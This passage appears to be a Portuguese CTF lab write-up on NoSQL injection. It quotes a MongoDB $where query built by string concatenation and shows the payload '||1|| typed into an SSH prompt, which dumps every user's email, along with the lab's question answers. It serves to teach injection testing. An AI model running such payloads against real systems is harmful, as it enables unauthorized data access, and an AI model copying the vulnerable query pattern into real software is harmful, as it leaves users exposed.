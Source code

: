 Podemos testar se aplicação é vulnerável a injeção com um `'`.

![Application](/assets/img/posts/2025/03/nosql-injection/nosql-application.png)

Com a mensagem acima sabemos que a aplicação não realiza as devidas verificações, olhando o código da aplicação, a string passada é concatenada na consulta.

`for x in mycol.find({"$where": "this.username == '" + username + "'"}):`

Sendo assim, podemos realizar uma condição verdadeira e verificar o retorno.

```shell
root@ip-10-10-4-224:~# ssh syntax@10.10.201.31
syntax@10.10.201.31's password: 
Please provide the username to receive their email:'||1||'
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
Syntax@Injection.FTW
Connection to 10.10.201.31 closed.
root@ip-10-10-4-224:~# 
```

É retornado todos os e-mails da aplicação, dessa forma, realizamos o dump de todos os e-mail.

**What common character is used to test for injection in both SQL and NoSQL solutions?**  
R:`'`

**What is the email value of the super secret user returned in the last entry?**  
R:`Syntax@Injection.FTW`

## Conclusão

Na aula é apresentado diversas formas de NoSQL injection, de uma forma teórica e prática, apresentando a exploração de operadores e sintaxe.